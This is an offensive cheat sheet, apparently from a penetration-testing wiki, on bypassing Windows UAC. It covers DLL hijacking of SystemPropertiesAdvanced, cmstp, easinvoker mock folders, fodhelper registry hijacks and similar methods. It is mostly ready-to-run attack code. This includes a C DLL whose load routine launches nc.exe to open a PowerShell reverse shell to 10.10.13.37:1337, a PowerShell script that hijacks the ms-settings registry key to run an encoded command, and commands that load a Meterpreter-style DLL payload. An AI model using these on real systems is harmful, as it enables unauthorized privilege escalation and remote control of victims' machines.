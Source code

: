 # UAC Bypass

## Enumeration

Check current token privileges and UAC settings with Seatbelt:

```
PS > .\Seatbelt.exe TokenPrivileges UAC
```

## SystemPropertiesAdvanced.exe

`srrstr.dll` DLL hijacking.

* [https://egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)

{% code title="srrstr.c" %}
```c
// i686-w64-mingw32-g++ srrstr.c -lws2_32 -o srrstr.dll -shared

#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
	switch(dwReason) {
		case DLL_PROCESS_ATTACH:
			WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.13.37 1337 -e powershell", 0);
		case DLL_PROCESS_DETACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
	}

	return 0;
}
```
{% endcode %}

Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):

```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

## cmstp.exe

* [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)
* [https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6](https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6)

Compile from source, load and execute:

```
PS > Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
PS > [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
PS > [CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")
```

Load from a weaponized PowerShell and execute:

```
PS > Bypass-UAC -C "C:\Windows\System32\cmd.exe"
```

## easinvoker.exe

* [https://github.com/sailay1996/UAC\_Bypass\_In\_The\_Wild/tree/master/FileSys\_UAC\_Bypass/uac\_easinvoker](https://github.com/sailay1996/UAC\_Bypass\_In\_The\_Wild/tree/master/FileSys\_UAC\_Bypass/uac\_easinvoker)
* [https://github.com/g3tsyst3m/elevationstation/blob/main/elevationstation/elevationstation.cpp](https://github.com/g3tsyst3m/elevationstation/blob/ba521d9901c98458526c1790b2b0ed0b370796bc/elevationstation/elevationstation.cpp#L895-L903)

```
mkdir "\\?\C:\Windows "
mkdir "\\?\C:\Windows \System32"
copy c:\windows\system32\easinvoker.exe "C:\Windows \System32"
copy netutils.dll "C:\Windows \System32"
"C:\Windows \System32\easinvoker.exe"
del /q "C:\Windows \System32\*"
rmdir "C:\Windows \System32"
rmdir "C:\Windows "
```

## fodhelper.exe

* [https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)

Create and set registry values (the payload is generated with [`charlotte.py`](broken-reference)):

```
PS > New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
PS > New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
PS > Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "rundll32 C:\Windows\System32\spool\drivers\color\met.dll, SUJIzDKv" -Force
```

Trigger `fodhelper.exe`:

```
PS > Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Clean up:

```
PS > Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

Another way to do it with a script (hijacking PowerShell executable):

{% code title="fod.ps1" %}
```powershell
function Fod {
    $cmd = "C:\Windows\Tasks\foo.exe -enc <BASE64_CMD>"
	
    copy C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Tasks\foo.exe
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
	
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
	
	Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep -s 3
	
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
}
```
{% endcode %}

## SilentCleanup

* [https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/](https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/)
* [https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass](https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass)

## SCM UAC Bypass

* [https://www.tiraniddo.dev/2022/03/bypassing-uac-in-most-complex-way.html](https://www.tiraniddo.dev/2022/03/bypassing-uac-in-most-complex-way.html)
* [https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82)
* [https://github.com/wh0amitz/KRBUACBypass](https://github.com/wh0amitz/KRBUACBypass)

## Task Scheduler

* [https://www.zcgonvh.com/post/Advanced\_Windows\_Task\_Scheduler\_Playbook-Part.2\_from\_COM\_to\_UAC\_bypass\_and\_get\_SYSTEM\_dirtectly.html](https://www.zcgonvh.com/post/Advanced\_Windows\_Task\_Scheduler\_Playbook-Part.2\_from\_COM\_to\_UAC\_bypass\_and\_get\_SYSTEM\_dirtectly.html)
* [https://github.com/zcgonvh/TaskSchedulerMisc/blob/master/schuac.cs](https://github.com/zcgonvh/TaskSchedulerMisc/blob/master/schuac.cs)

## Tricks

Bypass UAC for file read/write:

```
Cmd > net use A: \\127.0.0.1\C$
Cmd > A:
Cmd > cd \Windows\System32
Cmd > echo test > test.txt
Cmd > dir test.txt
```
